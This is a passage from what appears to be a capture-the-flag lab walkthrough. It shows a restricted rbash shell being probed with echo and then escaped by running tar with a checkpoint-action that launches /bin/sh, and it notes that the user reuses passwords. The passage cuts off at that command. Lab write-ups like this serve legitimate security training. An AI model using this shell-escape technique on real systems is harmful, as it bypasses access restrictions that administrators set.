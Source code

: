      id
     # rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names
     ```
     __NOTE(S)__:
     - `ayush` __reuses__ passwords

5. Escape the `rbash`:
   1. Look for usable commands:
      ```console
      cd ~
      # rbash: cd: restricted

      ls -lah
      # rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names

      echo test
      # test
      ```
   2. Leverage `echo`:
      ```console
      echo ~/*
      # /home/ayush/mail 
      # /home/ayush/user.txt

      echo $PATH
      # /home/ayush/.app

      echo /home/ayush/.app/*
      # /home/ayush/.app/dir 
      # /home/ayush/.app/ping 
      # /home/ayush/.app/tar
      ```
      __NOTE(S)__:
      - `ayush` is able to use `tar`

   3. Leverage `tar`:
      ```console
      tar -cf /dev/null /home/ayush/mail --checkpoint=1 --checkpoint-action=exec=/bin/sh
